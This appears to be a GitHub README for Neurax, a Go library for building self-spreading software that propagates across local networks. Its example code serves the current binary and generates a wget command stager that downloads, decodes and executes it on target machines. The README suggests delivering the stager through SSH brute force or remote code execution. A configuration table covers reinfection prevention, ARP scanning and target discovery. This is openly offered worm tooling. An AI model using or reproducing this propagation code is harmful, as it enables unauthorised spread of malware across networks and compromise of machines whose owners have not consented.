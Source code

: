 <h1 align="center"> Neurax </h1> <br>

<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>

<p align="center"> A library that aids in creation of self-spreading software</p>

## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.
### Example code

```go
package main
import "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  neurax_config.port = 5555
  neurax_config.stager = "wget"

  //Start a server that exposes the current binary in the background
  go neurax_server()
  
  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := neurax_stager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

<span style="color:#b45e02">Name</span> | <span style="color:#5f1e2d">Description</span> | <span style="color:#aa5502">Default value</span>
--- | --- | ---
neurax_config.stager           | Name of the command stager to use | random, platform-compatible
neurax_config.port             | Port to serve on | random from 2222 to 9999
neurax_config.platform         | Platform to target | detected automatically
neurax_config.path             | The path under which binary is saved on the host | random
neurax_config.file_name        | Name under which downloaded binary should be served and then saved | random
neurax_config.base64           | Encode the transferred binary in base64 | false
neurax_config.prevent_reinfect | Use port-knocking to prevent multiple infections of the same host | true
neurax_config.required_port    | Neurax_scan() treats host as active only when it has a specific port opened|none
neurax_config.scan_passive     | Neurax_scan() detects hosts using passive ARP traffic monitoring | false
neurax_config.scan_timeout     | neurax_scan() sets this value as timeout for scanned port in each thread | 2 seconds
neurax_config.read_arp_cache   | neurax_scan() scans first the hosts found in local ARP cache. Works only with active scan | false
neurax_config.cidr             | Neurax_scan() scans this CIDR | local IP + "\24"
neurax_config.threads          | Number of threads to use for neurax_scan() | 10
neurax_config.full_range       | Neurax_scan() scans all ports of target host to determine if it is active | from 19 to 300

### Finding new targets
Function `neurax_scan(c chan string)` enables detection of active hosts on local network.
It accepts a channel of type string as it's only argument and should be launched as a goroutine.
Any scanned host will be sent through that channel as soon as it was classified as active.
Host is treated as active when it has at least 1 open port + fullfils conditions specified within `neurax_config`.

## Artwork credits

====> [Seto01](https://www.deviantart.com/seto01/art/New-disease-parasite-438032692) <====

## License
This software is under [MIT license](https://en.wikipedia.org/wiki/MIT_License)
